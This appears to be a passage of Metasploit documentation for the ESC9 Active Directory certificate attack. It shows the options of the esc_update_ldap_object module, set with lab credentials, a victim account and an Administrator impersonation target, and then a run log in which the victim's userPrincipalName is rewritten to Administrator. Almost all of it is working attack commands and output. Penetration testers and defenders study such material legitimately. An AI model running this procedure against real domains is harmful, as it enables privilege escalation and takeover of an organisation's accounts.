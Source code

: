 ### ESC9 - Update userPrincipalName when you already have `TARGET_PASSWORD`. See shadow credentials don't get created / used
```
msf auxiliary(admin/dcerpc/esc_update_ldap_object) > options

Module options (auxiliary/admin/dcerpc/esc_update_ldap_object):

   Name                      Current Setting    Required  Description
   ----                      ---------------    --------  -----------
   ADD_CERT_APP_POLICY                          no        Add certificate application policy OIDs
   ALT_DNS                                      no        Alternative certificate DNS
   ALT_SID                                      no        Alternative object SID
   ALT_UPN                                      no        Alternative certificate UPN (format: USER@DOMAIN)
   CA                        kerberos-DC2-CA    yes       The target certificate authority
   CERT_TEMPLATE             User               yes       The certificate template
   LDAPDomain                kerberos.issue     yes       The domain to authenticate to
   LDAPPassword              N0tpassword!       yes       The password to authenticate with
   LDAPUsername              user1              yes       The username to authenticate with, who must have permissions to update the TARGET_USERNAME
   SSL                       false              no        Enable SSL on the LDAP connection
   TARGET_PASSWORD           N0tpassword!       no        The password of the target LDAP object (the victim account). If left blank, Shadow Credentials will be used to authenticaet as the TARGET_USERNAME
   TARGET_USERNAME           user2              yes       The username of the target LDAP object (the victim account).
   UPDATE_LDAP_OBJECT        userPrincipalName  yes       Either userPrincipalName or dNSHostName, Updates the necessary object of a specific user before requesting the cert. (Accepted: userPrincipalName, dNSHostName)
   UPDATE_LDAP_OBJECT_VALUE  Administrator      yes       The account name you wish to impersonate


   Used when making a new connection via RHOSTS:

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  172.16.199.200   no        The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   445              no        The target port (TCP)


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate



View the full module info with the info, or info -d command.

msf auxiliary(admin/dcerpc/esc_update_ldap_object) > run
[*] Running module against 172.16.199.200
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Current value of user2's userPrincipalName:
[*] Attempting to update userPrincipalName for CN=user2,CN=Users,DC=kerberos,DC=issue to Administrator...
[+] Successfully updated CN=user2,CN=Users,DC=kerberos,DC=issue's userPrincipalName to Administrator
[+] The operation completed successfully!
```